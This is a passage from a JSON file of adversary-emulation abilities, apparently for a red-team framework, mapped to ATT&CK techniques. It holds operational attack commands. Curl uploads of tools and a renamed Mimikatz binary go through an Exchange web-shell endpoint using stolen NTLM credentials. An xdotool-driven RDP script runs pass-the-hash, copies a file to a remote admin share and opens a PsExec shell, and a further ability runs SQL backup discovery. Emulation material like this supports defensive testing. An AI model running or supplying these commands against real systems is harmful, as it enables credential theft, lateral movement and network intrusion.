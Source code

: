```json
    {
      "ability_id": "d5b83af2-b79e-438d-acfc-2641282df698",
      "platform": "linux",
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST -F \"upl=f1\" -F 'sav=C:\\Windows\\Temp' -F \"vir=false\" -F \"nen=Nt.dat\" -F 'f1=@RDAT.exe' https://#{second.target.host}/ews/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "98279c81-d5a0-4ec4-9d40-a6e87d1f9bd2",
      "platform": "linux",
      "commands": {
        "sh": "curl -s --http1.1 --ntlm -u '#{network.domain.name}\\#{initial.target.user}:#{initial.target.password}' -k -X POST -F \"upl=f1\" -F 'sav=C:\\Windows\\System32' -F \"vir=false\" -F \"nen=mom64.exe\" -F 'f1=@m64.exe' https://#{second.target.host}/ews/contact.aspx\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "44073aa3-70e9-4a48-86b7-c25b6f29c25c",
      "platform": "linux",
      "commands": {
        "sh": "sleep 5;\nrdp_pid=$(pgrep -f \"xfreerdp.*/v:localhost\");\nrdp_window=$(xdotool search --pid \"$rdp_pid\");\nxdotool key --window \"$rdp_window\" Super_L;\nsleep 5; \nxdotool windowactivate --sync \"$rdp_window\" type --delay 200 \"cmd\";\nsleep 3; \nxdotool key --window \"$rdp_window\" Ctrl+Shift+Return;\nsleep 3; \nxdotool key --window \"$rdp_window\" Tab Tab;\nxdotool key --window \"$rdp_window\" Return;\nsleep 3; \nxdotool type --window \"$rdp_window\" 'C:\\Windows\\System32\\mom64.exe \"privilege::debug\" \"sekurlsa::pth /user:#{second.target.user} /domain:#{network.domain.name} /ntlm:#{second.target.ntlm}\"';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3; \nxdotool type --window \"$rdp_window\" 'copy C:\\Windows\\Temp\\Nt.dat \\\\#{third.target.ip}\\C$\\ProgramData\\';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3; \nxdotool type --window \"$rdp_window\" 'C:\\Windows\\System32\\ps.exe \\\\#{third.target.ip} cmd.exe';\nxdotool key --window \"$rdp_window\" Return;\nsleep 5;\n"
      },
      "privilege": "Unknown",
      "tactic": "execution",
      "technique": "System Services: Service Execution",
      "attack_id": "T1569.002"
    },
    {
      "ability_id": "f1f34439-ca0d-4fe7-99af-a198a29b6a3e",
      "platform": "linux",
      "commands": {
        "sh": "sleep 3;\nrdp_pid=$(pgrep -f \"xfreerdp.*/v:localhost\");\nrdp_window=$(xdotool search --pid \"$rdp_pid\");\nsleep 3; \nxdotool type --window \"$rdp_window\" 'dir \"C:\\Program Files\\Microsoft SQL Server\\\"';\nxdotool key --window \"$rdp_window\" Return;\nsleep 3; \nxdotool type --window \"$rdp_window\" 'dir \"C:\\Program Files\\Microsoft SQL Server\\MSSQL15.MSSQLSERVER\\MSSQL\\Backup\\\"';\nxdotool key --window \"$rdp_window\" Return;\nsleep 4;\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "File and Directory Discovery",
      "attack_id": "T1083"
    },
    {
```
